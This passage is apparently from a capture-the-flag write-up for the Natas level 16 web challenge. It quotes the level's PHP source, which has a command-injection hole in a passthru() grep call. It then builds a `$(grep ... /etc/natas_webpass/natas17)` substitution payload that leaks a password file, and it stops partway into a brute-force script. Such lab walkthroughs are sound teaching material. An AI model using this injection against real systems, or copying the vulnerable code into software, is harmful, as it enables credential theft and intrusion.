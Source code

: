 ~~~~
<div id="content">

For security reasons, we now filter even more on certain characters<br/><br/>
<form>
Find words containing: <input name=needle><input type=submit name=submit value=Search><br><br>
</form>


Output:
<pre>
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    if(preg_match('/[;|&`\'"]/',$key)) {
        print "Input contains an illegal character!";
    } else {
        passthru("grep -i \"$key\" dictionary.txt");
    }
}
?>
</pre>

<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
~~~~

Hey, this looks kinda familiar! Takes me all the way back to levels 9 and 10.

We're back to dictionary.txt, but this time, there's even filtering of characters. No semicolons... not much of a chance of executing a command. Or is there? What if instead of separating commands with a semicolon, we embed our command inside of grep?

Here's an example of what I'm thinking:

We query `whirlpools$(grep [character] /etc/natas_webpass/natas17)`, which to `passthru()` looks like:

`grep -i "whirlpools$(grep [character] /etc/natas_webpass/natas17)" dictionary.txt`

If "a" for example exists within the password, then nothing should be echoed back because "whirlpools" is unique in the dictionary. There's no such thing as "whirlpoolsa", therefore it should return nothing from the dictionary. But if "a" does not exist in the password, then nothing will be tacked onto "whirlpools", and "whirlpools" will be echoed back to us.

This is starting to look similar enough to the last one, I think we can reuse much of our PHP.

~~~~
<?php

function get($url)
{
    $username = "natas16";
    $password = "[censored]";
    $string = base64_encode("$username:$password");

    $options = [
        'http' => [
            'header'  => "Content-Type: application/x-www-form-urlencoded\r\n" . "authorization: Basic $string",
            'method'  => 'GET'
~~~~
